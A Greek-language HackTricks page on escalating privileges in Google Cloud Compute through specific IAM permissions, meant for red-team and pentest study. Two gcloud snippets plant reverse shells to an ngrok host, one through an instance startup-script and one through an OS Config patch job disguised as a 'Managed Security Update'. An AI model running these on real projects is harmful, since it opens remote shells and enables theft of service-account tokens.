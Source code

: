 # GCP - Compute Privesc

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (δίκτυο) στο GCP, ελέγξτε:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Σημειώστε ότι για να εκτελέσετε όλες τις επιθέσεις κλιμάκωσης προνομίων που απαιτούν τροποποίηση των μεταδεδομένων της παρουσίας (όπως η προσθήκη νέων χρηστών και κλειδιών SSH) είναι **απαραίτητο να έχετε δικαιώματα `actAs` πάνω στο SA που είναι συνδεδεμένο με την παρουσία**, ακόμα και αν το SA είναι ήδη συνδεδεμένο!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Με αυτή την άδεια μπορείτε να **τροποποιήσετε** τις **πληροφορίες μεταδεδομένων** μιας **παρουσίας** και να αλλάξετε τα **εξουσιοδοτημένα κλειδιά ενός χρήστη**, ή να **δημιουργήσετε** έναν **νέο χρήστη με sudo** δικαιώματα. Επομένως, θα μπορείτε να εκτελέσετε μέσω SSH σε οποιαδήποτε VM παρουσία και να κλέψετε τον GCP Service Account με τον οποίο εκτελείται η παρουσία.\
Περιορισμοί:

* Σημειώστε ότι οι GCP Service Accounts που εκτελούνται σε VM παρουσίες από προεπιλογή έχουν **πολύ περιορισμένο εύρος**
* Θα χρειαστεί να είστε **σε θέση να επικοινωνήσετε με τον SSH** server για να συνδεθείτε

Για περισσότερες πληροφορίες σχετικά με το πώς να εκμεταλλευτείτε αυτή την άδεια, ελέγξτε:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Μπορείτε επίσης να εκτελέσετε αυτή την επίθεση προσθέτοντας νέο startup-script και επανεκκινώντας την παρουσία:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Αυτή η άδεια δίνει τα **ίδια προνόμια με την προηγούμενη άδεια** αλλά σε συγκεκριμένες instances αντί για ολόκληρο το project. Οι **ίδιες εκμεταλλεύσεις και περιορισμοί όπως στην προηγούμενη ενότητα ισχύουν**.

### `compute.instances.setIamPolicy`

Αυτό το είδος άδειας θα σας επιτρέψει να **δώσετε στον εαυτό σας έναν ρόλο με τις προηγούμενες άδειες** και να κλιμακώσετε τα προνόμια εκμεταλλευόμενοι αυτές.

### **`compute.instances.osLogin`**

Αν το **OSLogin είναι ενεργοποιημένο στην instance**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στην instance. Δεν θα έχετε **root προνόμια** μέσα στην instance.

{% hint style="success" %}
Για να συνδεθείτε επιτυχώς με αυτή την άδεια μέσα στην VM instance, πρέπει να έχετε την άδεια `iam.serviceAccounts.actAs` πάνω στο SA που είναι συνδεδεμένο με την VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Αν το **OSLogin είναι ενεργοποιημένο στην instance**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στην instance. Θα έχετε **root προνόμια** μέσα στην instance.

{% hint style="success" %}
Για να συνδεθείτε επιτυχώς με αυτή την άδεια μέσα στην VM instance, πρέπει να έχετε την άδεια `iam.serviceAccounts.actAs` πάνω στο SA που είναι συνδεδεμένο με την VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Είναι δυνατόν να **δημιουργήσετε μια εικονική μηχανή με ανατεθειμένο Service Account και να κλέψετε το token** του service account αποκτώντας πρόσβαση στα metadata για να κλιμακώσετε τα προνόμια σε αυτό.

Το exploit script για αυτή τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Αν έχετε τις άδειες **`osconfig.patchDeployments.create`** ή **`osconfig.patchJobs.exec`** μπορείτε να δημιουργήσετε ένα [**patch job ή deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Αυτό θα σας επιτρέψει να κινηθείτε πλευρικά στο περιβάλλον και να αποκτήσετε εκτέλεση κώδικα σε όλες τις compute instances μέσα σε ένα project.

Σημειώστε ότι προς το παρόν **δεν χρειάζεστε την άδεια `astAs`** πάνω στο SA που είναι συνδεδεμένο με την instance.

Αν θέλετε να το εκμεταλλευτείτε χειροκίνητα, θα χρειαστεί να δημιουργήσετε είτε ένα [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ή** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Για ένα patch job εκτελέστε:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Για να αναπτύξετε μια ανάπτυξη επιδιόρθωσης:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Το εργαλείο [patchy](https://github.com/rek7/patchy) θα μπορούσε να χρησιμοποιηθεί στο παρελθόν για την εκμετάλλευση αυτής της κακής διαμόρφωσης (αλλά τώρα δεν λειτουργεί).

**Ένας επιτιθέμενος θα μπορούσε επίσης να το εκμεταλλευτεί για διατήρηση πρόσβασης.**

### `compute.machineImages.setIamPolicy`

**Χορηγήστε στον εαυτό σας επιπλέον δικαιώματα** σε compute Image.

### `compute.snapshots.setIamPolicy`

**Χορηγήστε στον εαυτό σας επιπλέον δικαιώματα** σε ένα στιγμιότυπο δίσκου.

### `compute.disks.setIamPolicy`

**Χορηγήστε στον εαυτό σας επιπλέον δικαιώματα** σε έναν δίσκο.

### Παράκαμψη Access Scopes

Ακολουθώντας αυτόν τον σύνδεσμο θα βρείτε μερικές [**ιδέες για να προσπαθήσετε να παρακάμψετε τα access scopes**](../).

### Τοπική Αύξηση Δικαιωμάτων σε GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετάσχετε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}
